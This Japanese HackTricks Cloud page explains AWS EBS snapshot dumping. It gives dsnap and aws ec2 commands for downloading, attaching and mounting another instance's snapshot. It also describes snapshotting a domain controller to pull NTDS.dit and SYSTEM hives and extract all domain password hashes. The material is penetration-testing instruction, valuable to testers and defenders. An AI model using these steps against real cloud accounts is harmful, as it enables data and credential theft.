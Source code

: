 # AWS - EBS スナップショットダンプ

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でAWSハッキングをゼロからヒーローまで学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>

### スナップショットをローカルでチェックする
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
この技術に関する詳細は、オリジナルの研究をご覧ください [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

Pacuを使用して、モジュール [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots) でこれを実行できます。

### AWSでスナップショットをチェックする

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**自分のコントロール下にあるEC2 VMにマウントする**（バックアップのコピーと同じリージョン内である必要があります）：

ステップ1: EC2 -> ボリュームに移動して、好みのサイズとタイプの新しいボリュームを作成します。

このアクションを実行するには、以下のコマンドに従ってください：
- EC2インスタンスにアタッチするEBSボリュームを作成します。
- EBSボリュームとインスタンスが同じゾーン内にあることを確認します。

ステップ2: 作成したボリュームを右クリックして「ボリュームのアタッチ」オプションを選択します。

ステップ3: インスタンステキストボックスからインスタンスを選択します。

このアクションを実行するには、以下のコマンドを使用します：
- EBSボリュームをアタッチします。

ステップ4: EC2インスタンスにログインし、コマンド`lsblk`を使用して利用可能なディスクをリストします。

ステップ5: コマンド`sudo file -s /dev/xvdf`を使用して、ボリュームにデータがあるかどうかを確認します。

上記のコマンドの出力が「/dev/xvdf: data」と表示された場合、ボリュームは空です。

ステップ6: コマンド`sudo mkfs -t ext4 /dev/xvdf`を使用して、ボリュームをext4ファイルシステムにフォーマットします。または、コマンド`sudo mkfs -t xfs /dev/xvdf`を使用してxfsフォーマットを使用することもできます。ext4またはxfsのいずれかを使用してください。

ステップ7: 新しいext4ボリュームをマウントするための任意のディレクトリを作成します。例えば、「newvolume」という名前を使用できます。

このアクションを実行するには、コマンド`sudo mkdir /newvolume`を使用します。

ステップ8: コマンド`sudo mount /dev/xvdf /newvolume/`を使用して、ボリュームを「newvolume」ディレクトリにマウントします。

ステップ9: 「newvolume」ディレクトリに移動してディスクスペースを確認し、ボリュームマウントを検証します。

このアクションを実行するには、以下のコマンドを使用します：
- `/newvolume`にディレクトリを変更します。
- コマンド`df -h .`を使用してディスクスペースを確認します。このコマンドの出力は、「newvolume」ディレクトリの空き容量を表示する必要があります。

Pacuを使用して、モジュール`ebs__explore_snapshots`でこれを行うことができます。

### AWSでスナップショットを確認する（cliを使用）

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

### シャドウコピー

**`EC2:CreateSnapshot`** 権限を持つ任意のAWSユーザーは、**ドメインコントローラーのスナップショット**を作成し、自分たちが制御するインスタンスにそれをマウントし、Impacketのsecretsdumpプロジェクトで使用するために**NTDS.ditとSYSTEM**レジストリハイブファイルをエクスポートすることで、すべてのドメインユーザーのハッシュを盗むことができます。

このツールを使用して攻撃を自動化できます: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) または、スナップショットを作成した後に前述の技術のいずれかを使用することもできます。


# 参考文献
* https://devopscube.com/mount-ebs-volume-ec2-instance/

<details>

<summary><strong>AWSハッキングをゼロからヒーローまで学ぶには</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>をチェック！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい場合**や**HackTricksをPDFでダウンロードしたい場合**は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)コレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**テレグラムグループ**](https://t.me/peass)に**参加する**か、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>
